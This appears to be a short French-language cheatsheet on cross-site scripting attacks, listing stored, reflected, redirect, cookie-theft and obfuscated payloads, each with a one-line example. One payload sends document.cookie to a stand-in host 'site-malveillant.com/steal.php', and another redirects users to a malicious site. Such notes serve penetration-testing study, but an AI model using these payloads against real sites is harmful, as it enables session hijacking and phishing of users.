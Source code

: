 ```yaml
---
description: Attaques XSS (Cross-Site Scripting) - Cheatsheet
---
```


# Attaques XSS

1. <mark style="color:yellow;">Identification de Vulnérabilités :</mark>
   * Testez les champs d'entrée, les formulaires, les paramètres d'URL et les zones de commentaires pour identifier les points d'injection XSS possibles.
   * Recherchez les messages d'erreur ou les filtrages de caractères qui pourraient indiquer une vulnérabilité.
2. <mark style="color:yellow;">Injection XSS Persistante (Stockée) :</mark>
   * Injectez du code malveillant qui sera sauvegardé sur le serveur et affectera tous les utilisateurs qui afficheront la page.
   * Exemple : `<script>alert('XSS attaque !');</script>`
3. <mark style="color:yellow;">Injection XSS Réfléchie (Non Persistante) :</mark>
   * Injectez du code malveillant qui sera exécuté uniquement lorsque l'utilisateur clique sur un lien ou visite une URL spécialement conçue.
   * Exemple : `<img src="x" onerror="alert('XSS attaque !')">`
4. <mark style="color:yellow;">Redirection de Page et Hameçonnage :</mark>
   * Utilisez l'injection XSS pour rediriger les utilisateurs vers des sites malveillants ou pour voler leurs informations de connexion.
   * Exemple : `<script>window.location.href = 'http://site-malveillant.com';</script>`
5. <mark style="color:yellow;">Vol de Cookies et Sessions :</mark>
   * Utilisez l'injection XSS pour voler les cookies de session des utilisateurs et usurper leurs identités.
   * Exemple : `<script>document.location='http://site-malveillant.com/steal.php?cookie='+document.cookie;</script>`
6. <mark style="color:yellow;">Utilisation de Payloads Furtifs :</mark>
   * Utilisez des techniques d'obfuscation pour masquer le code malveillant et éviter la détection.
   * Exemple : `<s%63ript>alert('XSS attaque !');</s%63ript>`

